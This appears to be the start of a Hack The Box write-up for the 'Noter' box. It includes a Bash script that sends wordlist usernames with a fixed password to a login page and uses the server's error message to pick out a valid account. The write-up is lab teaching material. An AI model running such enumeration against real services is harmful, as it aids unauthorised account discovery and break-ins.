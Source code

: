 # Noter

The box will put your logic to the test.

At the beginning, to access the targeted backend, I needed this tiny Bash script:

```bash
for w in $(cat $1)
do
    r=$(curl -X POST -d "username=$w" -d "password=123" "http://$2/login")
    if [[ $r == *"Invalid login"* ]]; then
        echo "$w" > username.txt
        exit 0
    fi
    sleep .25 # in case of rate limiting
done
```

`$1` is for the path to your wordlist (for usernames), and `$2` is for the IP machine to attack.

It does not give you the password because we want to find the username here. I've read comments on the HTB forum that say you can find it without any brute force. Well, even if the username is in a notorious wordlist (not Rockyou), it's still pretty uncommon in such context.
